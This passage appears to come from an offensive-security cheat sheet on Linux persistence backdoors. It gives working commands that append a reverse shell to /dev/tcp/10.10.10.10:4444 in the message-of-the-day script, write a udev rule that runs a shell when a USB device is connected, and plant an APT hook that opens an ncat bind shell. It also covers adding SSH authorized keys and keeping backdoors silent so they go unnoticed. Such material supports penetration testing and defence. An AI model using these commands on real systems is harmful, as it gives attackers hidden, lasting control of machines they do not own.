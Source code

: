 
## Backdooring Message of the Day

* Edit `/etc/update-motd.d/00-header` file
  ```bash
  echo 'bash -c "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"' >> /etc/update-motd.d/00-header
  ```


## Backdooring a user startup file

Linux, write a file in  `~/.config/autostart/NAME_OF_FILE.desktop`

```powershell
In : ~/.config/autostart/*.desktop

[Desktop Entry]
Type=Application
Name=Welcome
Exec=/var/lib/gnome-welcome-tour
AutostartCondition=unless-exists ~/.cache/gnome-getting-started-docs/seen-getting-started-guide
OnlyShowIn=GNOME;
X-GNOME-Autostart-enabled=false
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Backdooring the SSH

Add an ssh key into the `~/.ssh` folder.

1. `ssh-keygen`
2. write the content of `~/.ssh/id_rsa.pub` into `~/.ssh/authorized_keys`
3. set the right permission, 700 for ~/.ssh and 600 for authorized_keys

## Backdooring Git

Backdooring git can be a useful way to obtain persistence without the need for root access.  
Special care must be taken to ensure that the backdoor commands create no output, otherwise the persistence is trivial to notice.
